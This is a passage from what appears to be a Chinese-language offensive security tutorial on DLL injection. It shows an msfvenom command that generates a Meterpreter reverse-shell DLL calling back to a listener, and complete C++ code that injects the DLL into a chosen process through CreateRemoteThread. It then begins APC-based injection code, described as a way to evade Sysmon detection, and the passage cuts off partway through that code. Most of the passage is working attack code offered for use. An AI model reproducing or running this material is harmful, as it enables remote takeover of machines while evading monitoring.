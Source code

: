     
    
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.105 LPORT=4444 -f dll -o inject.dll

  

然后手写一个dll注入器：

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include<Windows.h>#include<stdio.h>  
    using namespace std;  
    int main(int argc,char * argv[]) {  HANDLE ProcessHandle;  LPVOID remotebuffer;  BOOL write;  
      wchar_t dllpath[] = TEXT("C:\\users\\root\\desktop\\inject.dll");  
      if (argc < 2) {    printf("Useage inject.exe Pid;\n");    printf("such as inject.exe 258\n");    exit(0);  }  
      printf("Injecting DLL to PID: %i\n", atoi(argv[1]));  ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));  if (ProcessHandle == NULL) {    printf("OpenProcess Fail !!!");    exit(0);  }  else  {    printf("OpenProcess %i successful !!!\n",atoi(argv[1]));  }  
      remotebuffer = VirtualAllocEx(ProcessHandle, NULL, sizeof dllpath, MEM_COMMIT, PAGE_READWRITE);  write = WriteProcessMemory(ProcessHandle, remotebuffer, (LPVOID)dllpath, sizeof dllpath, NULL);    if (write == 0) {    printf("WriteProcessMemory Fail %i!!!",GetLastError());    exit(0);  }  else  {    printf("WriteProcessMemory  successful !!!\n");  }  
      PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");  CreateRemoteThread(ProcessHandle, NULL, 0, threatStartRoutineAddress, remotebuffer, 0, NULL);  CloseHandle(ProcessHandle);  
      
      return 0;}

  

在进程监控中，也可以清楚的看到进程被注入了dll。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211015094913.png)

  

在上面的注入方式中，我们使用了CreateRemoteThread来进行dll注入，而这个方式在具有Sysmon的系统中会留下Event ID
8的痕迹。而我们使用通过APC实现Dll注入则可以绕过这种监控。

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <TlHelp32.h>#include <vector>  
    using std::vector;  
    bool FindProcess(PCWSTR exeName, DWORD& pid, vector<DWORD>& tids) {    auto hSnapshot = ::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);    if (hSnapshot == INVALID_HANDLE_VALUE)        return false;    pid = 0;    PROCESSENTRY32 pe = { sizeof(pe) };    if (::Process32First(hSnapshot, &pe)) {        do {            if (_wcsicmp(pe.szExeFile, exeName) == 0) {                pid = pe.th32ProcessID;                THREADENTRY32 te = { sizeof(te) };                if (::Thread32First(hSnapshot, &te)) {                    do {                        if (te.th32OwnerProcessID == pid) {                            tids.push_back(te.th32ThreadID);                        }                    } while (::Thread32Next(hSnapshot, &te));                }                break;            }        } while (::Process32Next(hSnapshot, &pe));    }    ::CloseHandle(hSnapshot);    return pid > 0 && !tids.empty();}  